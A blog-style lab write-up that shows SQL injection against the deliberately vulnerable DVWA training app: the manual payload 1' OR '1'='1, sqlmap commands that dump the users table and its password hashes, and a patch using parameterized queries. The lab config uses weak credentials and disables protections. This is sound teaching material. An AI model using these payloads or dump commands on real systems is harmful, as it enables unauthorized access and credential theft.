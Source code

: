 ```yaml
---
layout: post
title:  "Hands‑On SQL Injection Lab: DVWA from Exploit to Patch"
date:   2025-07-30 09:00:00 -0500
categories: pentesting web-security sql-injection
tags: [DVWA, SQLi, penetration-testing, cyber-security, git]
---
```


In this lab, we’ll walk through a complete **SQL Injection** lifecycle using the Damn Vulnerable Web Application (DVWA). You’ll learn how to:

1. **Set up** a two‑VM environment: Kali Linux (attacker) & Ubuntu + DVWA (target)  
2. **Manually exploit** the SQLi vulnerability  
3. **Automate** the attack with `sqlmap`  
4. **Troubleshoot** sessions, redirects, and cookie issues  
5. **Patch** the vulnerability and **verify** the fix

## TL;DR

- **Setup**: Two‑VM lab with Kali Linux (attacker) and Ubuntu + DVWA (target)  
- **Manual Exploit**: Used `1' OR '1'='1` in DVWA’s SQLi page to retrieve user records  
- **Automation**: Leveraged `sqlmap` with valid `PHPSESSID` and `security=low` cookies to dump the `dvwa.users` table  
- **Troubleshooting**: Resolved 302 redirects, cookie formatting, URL quoting, and cache issues (`--flush-session`)  
- **Patch**: Switched DVWA to “High” security—uses PDO parameterized queries—and confirmed injection is blocked  
- **Key Lesson**: Always use parameterized queries to prevent SQL Injection; hands‑on debugging is as important as the exploit.  

---

## 🛠 Environment Setup

1. **Ubuntu Server** VM (DVWA target)  
   - Install Apache, PHP, MySQL:  
     ```bash
     sudo apt update
     sudo apt install -y apache2 php libapache2-mod-php php-mysql mysql-server
     ```
   - Clone DVWA and configure database:  
     ```bash
     cd /var/www/html
     sudo git clone https://github.com/digininja/DVWA.git
     cd DVWA/config
     sudo cp config.inc.php.dist config.inc.php
     ```
   - Edit `config.inc.php`:
     ```php
     $_DVWA['db_user']                 = 'dvwauser';
     $_DVWA['db_password']             = 'password';
     $_DVWA['enable_phpids']           = false;
     $_DVWA['disable_authentication_tokens'] = true;
     ```
   - Create database & user in MySQL:
     ```sql
     CREATE DATABASE dvwa;
     CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
     GRANT ALL ON dvwa.* TO 'dvwauser'@'localhost';
     FLUSH PRIVILEGES;
     ```
   - Restart Apache and complete setup at `http://<IP>/DVWA/setup.php`.

   ![DVWA Setup Success](/assets/dvwa-setup.png)
   Ensure you follow DVWA set-up carefully as a misconfigured file gave me quite the headache!

2. **Kali Linux** VM (Attacker)  
   - Install tools:
     ```bash
     sudo apt update
     sudo apt install -y sqlmap curl
     ```
   - Ensure you can browse to DVWA (`admin`/`password`) and set security **Low**.

---

## 🔍 Phase 1: Manual SQL Injection

Navigate to:

```
http://<IP>/DVWA/vulnerabilities/sqli/
```

Enter in **ID** field:
```
1' OR '1'='1
```
Submit and observe multiple user records returned—proof of SQLi.

![](/assets/manual-sqli.png)

---

## 🤖 Phase 2: Automating with sqlmap

1. **Grab your session cookie** from the Kali browser (`PHPSESSID`, `security=low`).  
2. **Verify** access to the injection point:
   ```bash
   curl -IL --cookie "PHPSESSID=<ID>; security=low" \
       "http://<IP>/DVWA/vulnerabilities/sqli/?id=1"
   # Expect HTTP/1.1 200 OK
   ```

3. **Enumerate databases**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     --dbs --batch --flush-session
   ```
4. **Dump `users` table**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     -D dvwa -T users --dump --batch --flush-session
   ```

   You’ll retrieve `user_id`, `user`, and MD5 `password` hashes.

![](/assets/sqlmap-dump.png)

---

## 🔧 Troubleshooting Highlights

* **302 Redirects**: Ensure you log in from **Kali VM**, not host.
* **Cookie Errors**: Use correct format:
  ```
  --cookie="PHPSESSID=<ID>; security=low"
  ```
* **Malformed URL**: Wrap URL in quotes, include `?id=1`.
* **Cache Issues**: Use `--flush-session` to clear sqlmap cache.

---

## 🛡 Phase 3: Patching & Verification

1. In DVWA **Security** menu, set to **High** → Submit.
2. Review `high.php`—it uses PDO parameterized queries:
   ```php
   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
   $stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
   $stmt->execute();
   ```
3. **Retest**:
   * Manual payload `1' OR '1'='1` → **no data**
   * `sqlmap --dbs` → **no injectable parameters**

![](/assets/patch-verified.png)

---

## 🎓 Key Takeaways

* **SQL Injection** exploits unvalidated input—classic payload `1' OR '1'='1`.
* Tools like **sqlmap** automate enumeration but require proper cookies & session context.
* **Prepared statements** are the gold‑standard defense against SQLi.
* Hands‑on troubleshooting is as critical as the exploit itself.

---

## 📂 Resources

* **GitHub Repo:** [JohnSeanson/sql-injection-dvwa-lab](https://github.com/JohnSeanson/sql-injection-dvwa-lab)
* **Live Report:** [johnseanson.github.io](https://johnseanson.github.io)
* **DVWA:** [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
* **sqlmap:** [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

---

*Ready to try it yourself? Fork the repo, spin up your VMs, and share your results! Happy hacking and stay secure.*

